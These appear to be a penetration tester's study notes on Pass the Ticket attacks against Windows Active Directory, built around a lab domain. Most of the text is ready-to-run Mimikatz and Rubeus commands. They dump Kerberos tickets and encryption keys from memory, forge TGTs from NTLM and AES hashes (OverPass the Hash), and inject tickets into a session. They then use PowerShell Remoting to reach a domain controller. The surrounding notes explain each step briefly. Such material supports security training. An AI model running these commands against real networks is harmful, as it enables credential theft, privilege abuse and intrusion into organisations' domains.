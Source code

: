 # Pass the Ticket (PtT) from Windows

### Harvesting Kerberos Tickets from Windows

**Rubeus - Export Tickets**

```cmd-session
Rubeus.exe dump /nowrap
```

**Mimikatz - Export Tickets**

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

```cmd-session
exit
```

* The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory.
* User tickets have the user's name,
  * followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.
* We can also export tickets using Rubeus and the option dump
  * This option can be used to dump all tickets (if running as a local administrator).&#x20;
* `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

***

* Another advantage of abusing Kerberos tickets is the ability to forge our own tickets. Let's see how we can do this using the `OverPass the Hash or Pass the Key` technique.
  * [Pass the Hash (PtH)](app://obsidian.md/Pass%20the%20Hash%20\(PtH\))

### Pass the Key or OverPass the Hash

* The traditional `Pass the Hash (PtH)` technique involves reusing an NTLM password hash that doesn't touch Kerberos
* The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4\_hmac, aes256\_cts\_hmac\_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
  * technique was developed by Benjamin Delpy and Skip Duckwall in their presentation [Abusing Microsoft Kerberos - Sorry you guys don't get it](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18)
* To forge our tickets, we need to have the user's hash
  * we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`

**Mimikatz - Extract Kerberos Keys**

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

**Mimikatz - Pass the Key or OverPass the Hash**

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

**Rubeus - Pass the Key or OverPass the Hash**

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

### Pass the Ticket (PtT)

**Rubeus Pass the Ticket**

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

* Another way is to import the ticket into the current session using the .kirbi file from the disk.

**Rubeus - Pass the Ticket**

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

**Convert .kirbi to Base64 Format**

```powershell-session
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

* Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

**Pass the Ticket - Base64 Format**

```cmd-session
 Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

**Mimikatz - Pass the Ticket**

```cmd-session
mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

```
dir \\DC01.inlanefreight.htb\c$
```

### Pass The Ticket with PowerShell Remoting (Windows)

* [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.
  * Administrators often use PowerShell Remoting to manage remote computers on the network
  * Enabling PowerShell Remoting creates both HTTP and HTTPS listeners.
    * The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.
* To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.
  * Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands.

### Mimikatz - PowerShell Remoting with Pass the Ticket

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```cmd-session
exit
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```

```cmd-session
[DC01]: PS C:\Users\john\Documents> whoami
```

```cmd-session
[DC01]: PS C:\Users\john\Documents> hostname
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

* The above command will open a new cmd window.
* From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

**Rubeus - Pass the Ticket for Lateral Movement**

```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```

```cmd-session
[DC01]: PS C:\Users\john\Documents> whoami

inlanefreight\john
```

\
